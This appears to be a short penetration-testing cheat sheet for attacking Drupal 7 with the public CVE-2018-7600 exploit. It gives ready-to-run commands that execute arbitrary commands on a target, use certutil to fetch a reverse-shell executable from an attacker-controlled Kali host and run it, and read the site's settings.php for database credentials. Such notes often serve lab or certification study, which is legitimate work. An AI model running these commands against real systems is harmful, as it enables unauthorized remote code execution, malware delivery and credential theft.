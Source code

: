 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Drupal 7
https://github.com/pimps/CVE-2018-7600

There are 2 python files, try each, one may work, one may not.

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c whoami
```

[[1._Reverse Shells (WIN)#MSFVenom]]

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "certutil -urlcache -split -f http://$KALI/reverse64.exe"
```

```bash - kali
python3 drupa7-CVE-2018-7600.py http://$TARGET/ -c "reverse64.exe"
```


#### Check for settings.php for creds
```bash - kali
cat /var/www/html/sites/default/settings.php
```
